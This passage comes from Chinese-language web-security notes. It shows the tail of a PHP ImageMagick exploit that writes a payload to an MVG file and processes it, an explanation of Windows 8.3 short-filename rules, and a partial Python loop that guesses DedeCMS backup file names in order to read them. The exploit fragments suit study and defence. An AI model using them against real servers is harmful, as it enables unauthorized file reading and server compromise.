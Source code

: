 ```php
EOF; 
 
file_put_contents("KKKK.mvg", $exploit); 
$thumb = new Imagick(); 
$thumb->readImage('KKKK.mvg'); 
$thumb->writeImage('KKKK.png'); 
$thumb->clear(); 
$thumb->destroy(); 
unlink("KKKK.mvg"); 
unlink("KKKK.png"); 
?>
```

## 短文件名
> windows下的短文件名是dos+fat12/fat16时代的产物，又称为8dot3命名法
> 8是指文件名或目录名的主体部分小于等于8个字符
> 3是指文件名或目录名的扩展部分小于等于3个字符
> 中间以 . 作为分割在FAT16文件系统中，由于FDT中的文件目录登记项只为文件名保留了8个字节，为扩展名保留了3个字节，所以DOS和Windows的用户为文件起名字时要受到8.3格式的限制
> 从win95开始，采用fat32已经支持长文件名
> 但是为了保持兼容性，保证低版本的程序能正确读取长文件名文件，每当创建新文件或新目录时，系统自动为所有长文件名文件创建了一个对应的短文件名。
> 使这个文件既可以用长文件名寻址，也可以用短文件名寻址。

### 开启查询
cmd中`fsutil 8dot3name query`查询是否开启,1为开启2为关闭

```
C:\Users\E1se>fsutil 8dot3name query
注册表状态为: 1 (禁用所有卷上的 8dot3 名称创建)。
```

### 命名规则

1）符合DOS短文件名规则的Windows下的长文件名不变。  
2）长文件名中的空格，在短文件名中被删除。  
3）删除空格后的长文件名，若长度大于8个字符，则取前6个字符，后两个字符以”~#”代替，其中”#”为数字，数字根据前六个字符相同的文件名的个数顺延。若个数(前8字符同名)超过10个则取前5个字符，后三个字符以”~##”代替，其中”##”为两位数字，若个数大于100也依此规则替换。  
4）对使用多个”．”隔开的长文件名，取最左端一段转换为短文件名，取最右一段前三个字符为扩展名。

### 漏洞利用
**漏洞环境：**一般是iis配上.net的 或者Apache+Windows

```
url="localhost/dedeCMS"
dir = '/data/backupdata/dede_a~'
for i in range(1,6):
    urls = 'http://'+url + dir + str(i) + '.txt'
...省略
```
可以直接读取文件

### 漏洞修复
